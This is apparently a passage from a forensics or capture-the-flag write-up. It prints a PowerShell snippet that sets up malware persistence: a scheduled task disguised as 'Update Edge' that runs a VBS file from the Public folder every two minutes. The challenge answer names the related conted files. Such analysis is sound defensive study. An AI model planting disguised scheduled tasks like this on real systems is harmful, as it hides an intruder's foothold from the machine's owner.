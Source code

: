 ```shell
$taskDefinition = $scheduler.NewTask(0)
$taskDefinition.RegistrationInfo.Description = "Runs a script every 2 minutes"
$taskDefinition.Settings.Enabled = $true
$taskDefinition.Settings.DisallowStartIfOnBatteries = $false

$trigger = $taskDefinition.Triggers.Create(1)  # 1 = TimeTrigger
$trigger.StartBoundary = [DateTime]::Now.ToString("yyyy-MM-ddTHH:mm:ss")
$trigger.Repetition.Interval = "PT2M"

# إضافة الـ Action
$action = $taskDefinition.Actions.Create(0)  # 0 = ExecAction
$action.Path = "C:\Users\Public\Conted.vbs"

$taskFolder = $scheduler.GetFolder("\")
$taskFolder.RegisterTaskDefinition("Update Edge", $taskDefinition, 6, $null, $null, 3)
```

> ANSWER: `conted.bat, conted.ps1, conted.vbs`
{: .prompt-info }
